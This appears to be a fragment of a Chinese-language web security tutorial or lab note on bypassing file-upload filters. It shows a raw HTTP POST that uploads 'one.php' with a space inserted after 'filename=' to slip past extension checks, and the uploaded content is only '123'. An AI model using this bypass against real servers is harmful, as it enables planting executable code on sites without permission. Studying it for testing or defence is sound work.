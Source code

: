 [![](assets/1707954466-3e959981c6945111ef090f5533ab3b0c.png)](https://cdn.nlark.com/yuque/0/2024/png/29034274/1706945800459-8d29a222-85ff-466d-aa96-32a13de2a483.png#averageHue=%23f8f3f3&clientId=u74e75591-cad2-4&from=paste&height=681&id=uca4146af&originHeight=1021&originWidth=1587&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=322431&status=done&style=none&taskId=ua515ac51-ebb9-4729-a7c5-32a712ed539&title=&width=1058)

##### filename 绕过

在 filename 后面加入空格

```bash
POST /upFile.php HTTP/1.1
Host: 39.106.145.5:7777
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------2477136673360361791890184650
Content-Length: 233
Origin: http://39.106.145.5:7777
Connection: close
Referer: http://39.106.145.5:7777/
Cookie: sl-session=OAWDFEAwv2UukbVHDXo51w==
Upgrade-Insecure-Requests: 1

-----------------------------2477136673360361791890184650
Content-Disposition: form-data; name="file"; filename= "one.php"
Content-Type: application/octet-stream

123
-----------------------------2477136673360361791890184650--
```

